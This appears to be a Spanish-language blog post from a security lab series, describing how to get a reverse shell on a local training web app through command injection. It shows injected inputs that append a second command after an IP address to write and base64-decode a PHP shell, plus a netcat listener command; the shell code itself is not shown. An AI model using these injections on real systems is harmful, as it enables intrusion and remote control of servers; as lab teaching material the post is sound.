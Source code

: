 ```yaml
---

typora-copy-images-to: ../assets/img/
typora-root-url: ../
layout: post
categories: 
conToc: true
title: Reverse shell con Command injection
---
```






## Reverse shell con Command injection

Esta practica, necesitaremos el mismo docker y el mismo fichero php que hemos usado en la [practica anterior](https://yosoymark0911.github.io/2022/03/21/File-Upload.html)

Lo siguiente que haremo será codificar nuestro código php por un [codificador de base64](https://www.base64encode.org/).

A continuación iremos a Command Injection y ejecutaremos lo siguiente:



```bash
   127.0.0.1 ; echo "pega-aquí-el-código-en-base64" > shell.txt
```

![image-20220505171824348](/assets/img/image-20220505171824348.png)



Ahora le pasaremos el siguiente comando:

```bash
127.0.0.1 ; cat shell.txt | base64 -d > shell.php
```

Y antes de nada, en una termial, ejecutaremos el siguiente comando: 

```bash
nc -v -n -l -p 1234
```

Ahora iremos a la URL localhost:8080/vulnerabilities/exec/shell.php y podremos ver como se ejecuta nuestro shell:



![image-20220505172241762](/assets/img/image-20220505172241762.png)
